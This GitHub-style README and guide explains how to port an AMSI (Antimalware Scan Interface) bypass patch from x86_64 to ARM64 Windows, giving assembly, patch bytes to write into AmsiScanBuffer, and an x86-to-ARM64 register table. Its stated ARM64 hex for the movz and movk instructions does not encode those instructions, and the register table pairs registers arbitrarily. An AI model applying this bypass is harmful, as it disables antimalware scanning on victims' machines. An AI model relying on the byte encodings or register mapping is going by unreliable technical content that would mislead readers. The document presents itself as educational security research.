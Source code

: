 # ARM64 AMSI Patch

With the rise of ARM64 as an emerging architecture for Windows on ARM devices, there is an increasing need to understand and adapt low-level techniques traditionally used on x86_64 systems to this new platform. This repository demonstrates how AMSI (Antimalware Scan Interface) patching can be translated to ARM64, showcasing the fundamental differences and similarities in opcode manipulation between x86_64 and ARM64 architectures.

## Key Highlights
- **Focus on ARM64**: Showcases the application of AMSI bypass techniques specifically tailored for the ARM64 architecture, which is becoming more common in the Windows ecosystem.
- **Opcode Analysis**: Offers examples and explanations of how patching opcodes on ARM64 differs from x86_64, helping bridge the gap for those familiar with x86 internals.
- **Windows on ARM Research**: Contributes to the growing body of knowledge around system-level research on Windows ARM64 platforms and learn how ARM64 opcode patching works and how it compares to x86_64 patching, offering useful knowledge into architecture specific low-level operations.

## Why ARM64?
Windows on ARM is rapidly gaining traction with devices like the Surface Pro X and other Snapdragon-powered systems. As more software and security solutions are ported to ARM64, understanding the underlying architecture is crucial for both offensive and defensive security research.

## Why AMSI?
AMSI was chosen as the focus for this project because it represents a straightforward and well-known example for demonstrating binary patching techniques. It serves as an accessible starting point to illustrate the transition from x86_64 to ARM64 patching. Additionally, there is currently a noticeable lack of publicly available research or practical examples specifically covering AMSI patching on ARM64, positioning this work as a unique contribution to the community.

## Disclaimer
This repository is intended for educational and research purposes only. Use this knowledge responsibly.
#
#
# AMSI Patch Guide: x86_64 → ARM64

This guide explains how a common AMSI bypass patch is translated from x86_64 to ARM64, focusing on opcode differences and achieving the same functional result.

## Conceptual Overview:

```plaintext
┌───────────────────────────────────────────────────────────┐
│ Goal: Bypass AMSI by making AmsiScanBuffer return E_INVALIDARG (0x80070057) │
└───────────────────────────────────────────────────────────┘
```

### x86_64 Patch:
```asm
mov eax, 0x80070057 ; Set return value in EAX register
ret ; Return from function
```

**Machine Code (Hex):**
```asm
B8 57 00 07 80 C3
```

**Explanation:**
- `mov eax, 0x80070057` → `B8 57 00 07 80`
- `ret` → `C3`

### ARM64 Patch:
ARM64 uses a different instruction set. We need to set the return value in `x0` and return.
```asm
movz x0, #0x0057 ; Load lower 16 bits
movk x0, #0x8007, lsl #16 ; Load upper 16 bits
ret ; Return from function
```

**Machine Code (Hex):**
```asm
40 00 80 D2 ; movz x0, #0x57
00 1C 88 F2 ; movk x0, #0x8007, lsl #16
C0 03 5F D6 ; ret
```

## Visual Breakdown:

```asm
┌───────────────────────────────────────┐
│ x86_64 (Simple)                       │
├───────────────────────────────────────┤
│ mov eax, 0x80070057                   │
│ ret                                   │
│                                       │
│ **Hex: B8 57 00 07 80 C3**            │
└───────────────────────────────────────┘
```

```asm
┌───────────────────────────────────────┐
│ ARM64 (Immediate Encoding Needed)     │
├───────────────────────────────────────┤
│ movz x0, #0x0057                      │
│ movk x0, #0x8007, lsl #16             │
│ ret                                   │
│                                       │
│ **Hex: 40 00 80 D2 00 1C 88 F2 C0 03 5F D6** │
└───────────────────────────────────────┘
```

## Why the Extra Instructions on ARM64?
- **x86_64**: `mov eax, imm32` can load a 32-bit value directly.
- **ARM64**: Immediate values are encoded differently, large values require `movz` + `movk` to construct a 32-bit constant.

## End Result:
Both patches achieve the same outcome:
- **x86_64 → Set `eax` to `0x80070057` → Return**
- **ARM64 → Set `x0` to `0x80070057` → Return**

When patching, these byte sequences can be directly written into the AmsiScanBuffer prologue to bypass scanning.

## Additionally, a conversion table for x86_64 to ARM64 registers can be found below.
```asm
x64 (x86-64)        ->   ARM64 (AArch64)
----------------------------------------
RSP  (Stack Ptr)    ->   SP  (Stack Ptr)
RBP  (Frame Ptr)    ->   FP  (X29 - Frame Ptr)
RIP  (Instr Ptr)    ->   PC  (Program Counter)
RAX  (General Reg)  ->   X0  (General Reg)
RBX  (General Reg)  ->   X1  (General Reg)
RCX  (General Reg)  ->   X2  (General Reg)
RDX  (General Reg)  ->   X3  (General Reg)
RSI  (General Reg)  ->   X4  (General Reg)
RDI  (General Reg)  ->   X5  (General Reg)
R8   (General Reg)  ->   X6  (General Reg)
R9   (General Reg)  ->   X7  (General Reg)
R10  (General Reg)  ->   X8  (General Reg)
R11  (General Reg)  ->   X9  (General Reg)
R12  (General Reg)  ->   X10 (General Reg)
R13  (General Reg)  ->   X11 (General Reg)
R14  (General Reg)  ->   X12 (General Reg)
R15  (General Reg)  ->   X13 (General Reg)
                        X14 (General Reg)
                        X15 (General Reg)
                        X16 (Scratch Reg)
                        X17 (Scratch Reg)
                        X18 (Platform Reg)
                        X19 (Saved Reg)
                        X20 (Saved Reg)
                        X21 (Saved Reg)
                        X22 (Saved Reg)
                        X23 (Saved Reg)
                        X24 (Saved Reg)
                        X25 (Saved Reg)
                        X26 (Saved Reg)
                        X27 (Saved Reg)
                        X28 (Saved Reg)
                        X30 (Link Register)

EFLAGS (Status Reg) ->   CPSR (Current Program Status Reg)

Dr0 - Dr3 (Debug)   ->   Bcr0 - Bcr7 (Breakpoint Registers)
Dr6, Dr7 (Debug)    ->   Bvr0 - Bvr7 (Breakpoint Value Registers)
                        Wcr0 - Wcr1 (Watchpoint Registers)
                        Wvr0 - Wvr1 (Watchpoint Value Registers)

FltSave (FPU/SIMD)  ->   V0 - V31 (128-bit SIMD & Floating Point Registers)
                        FPCR (Floating Point Control Register)
                        FPSR (Floating Point Status Register)
```
